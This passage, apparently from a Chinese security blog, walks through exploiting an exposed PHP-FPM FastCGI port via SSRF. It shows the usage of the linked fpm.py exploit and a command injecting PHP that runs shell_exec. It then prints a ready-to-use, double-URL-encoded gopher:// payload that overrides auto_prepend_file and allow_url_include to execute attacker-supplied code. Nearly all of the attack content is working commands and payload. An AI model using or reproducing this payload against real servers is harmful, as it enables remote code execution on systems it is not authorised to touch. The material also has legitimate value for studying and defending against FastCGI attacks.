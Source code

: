 EXP：<a href="https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75</a>

<pre class="wp-block-code"><code>usage: fpm.py &#91;-h] &#91;-c CODE] &#91;-p PORT] host file</code></pre>

执行命令

<pre class="wp-block-code"><code>python3 fpm.py -c "&lt;?php var_dump(shell_exec('ls /'));?&gt;" -p 9000 127.0.0.1 /usr/local/lib/php/PEAR.php</code></pre><figure class="wp-block-image size-full">

<img loading="lazy" width="969" height="160" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-217.png" alt="" class="wp-image-3186" /> </figure> 

利用hexdump或xxd查看数据流和元数据。<figure class="wp-block-image size-full is-resized">

<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-219.png" alt="" class="wp-image-3189" width="470" height="507" /> </figure> 

提出来后进行url编码

```
gopher://127.0.0.1:9000/_%2501%2501%2542%2549%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2542%2549%2501%25e7%2500%2500%250e%2502%2543%254f%254e%2554%2545%254e%2554%255f%254c%2545%254e%2547%2554%2548%2533%2537%250c%2510%2543%254f%254e%2554%2545%254e%2554%255f%2554%2559%2550%2545%2561%2570%2570%256c%2569%2563%2561%2574%2569%256f%256e%252f%2574%2565%2578%2574%250b%2504%2552%2545%254d%254f%2554%2545%255f%2550%254f%2552%2554%2539%2539%2538%2535%250b%2509%2553%2545%2552%2556%2545%2552%255f%254e%2541%254d%2545%256c%256f%2563%2561%256c%2568%256f%2573%2574%2511%250b%2547%2541%2554%2545%2557%2541%2559%255f%2549%254e%2554%2545%2552%2546%2541%2543%2545%2546%2561%2573%2574%2543%2547%2549%252f%2531%252e%2530%250f%250e%2553%2545%2552%2556%2545%2552%255f%2553%254f%2546%2554%2557%2541%2552%2545%2570%2568%2570%252f%2566%2563%2567%2569%2563%256c%2569%2565%256e%2574%250b%2509%2552%2545%254d%254f%2554%2545%255f%2541%2544%2544%2552%2531%2532%2537%252e%2530%252e%2530%252e%2531%250f%251b%2553%2543%2552%2549%2550%2554%255f%2546%2549%254c%2545%254e%2541%254d%2545%252f%2575%2573%2572%252f%256c%256f%2563%2561%256c%252f%256c%2569%2562%252f%2570%2568%2570%252f%2550%2545%2541%2552%252e%2570%2568%2570%250b%251b%2553%2543%2552%2549%2550%2554%255f%254e%2541%254d%2545%252f%2575%2573%2572%252f%256c%256f%2563%2561%256c%252f%256c%2569%2562%252f%2570%2568%2570%252f%2550%2545%2541%2552%252e%2570%2568%2570%2509%251f%2550%2548%2550%255f%2556%2541%254c%2555%2545%2561%2575%2574%256f%255f%2570%2572%2565%2570%2565%256e%2564%255f%2566%2569%256c%2565%2520%253d%2520%2570%2568%2570%253a%252f%252f%2569%256e%2570%2575%2574%250e%2504%2552%2545%2551%2555%2545%2553%2554%255f%254d%2545%2554%2548%254f%2544%2550%254f%2553%2554%250b%2502%2553%2545%2552%2556%2545%2552%255f%2550%254f%2552%2554%2538%2530%250f%2508%2553%2545%2552%2556%2545%2552%255f%2550%2552%254f%2554%254f%2543%254f%254c%2548%2554%2554%2550%252f%2531%252e%2531%250c%2500%2551%2555%2545%2552%2559%255f%2553%2554%2552%2549%254e%2547%250f%2516%2550%2548%2550%255f%2541%2544%254d%2549%254e%255f%2556%2541%254c%2555%2545%2561%256c%256c%256f%2577%255f%2575%2572%256c%255f%2569%256e%2563%256c%2575%2564%2565%2520%253d%2520%254f%256e%250d%2501%2544%254f%2543%2555%254d%2545%254e%2554%255f%2552%254f%254f%2554%252f%250b%2509%2553%2545%2552%2556%2545%2552%255f%2541%2544%2544%2552%2531%2532%2537%252e%2530%252e%2530%252e%2531%250b%251b%2552%2545%2551%2555%2545%2553%2554%255f%2555%2552%2549%252f%2575%2573%2572%252f%256c%256f%2563%2561%256c%252f%256c%2569%2562%252f%2570%2568%2570%252f%2550%2545%2541%2552%252e%2570%2568%2570%2501%2504%2542%2549%2500%2500%2500%2500%2501%2505%2542%2549%2500%2525%2500%2500%253c%253f%2570%2568%2570%2520%2576%2561%2572%255f%2564%2575%256d%2570%2528%2573%2568%2565%256c%256c%255f%2565%2578%2565%2563%2528%2527%256c%2573%2520%252f%2527%2529%2529%253b%253f%253e%2501%2505%2542%2549%2500%2500%2500%2500
```

<img loading="lazy" width="1920" height="50" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-220.png" alt="" class="wp-image-3192" /> </figure> 

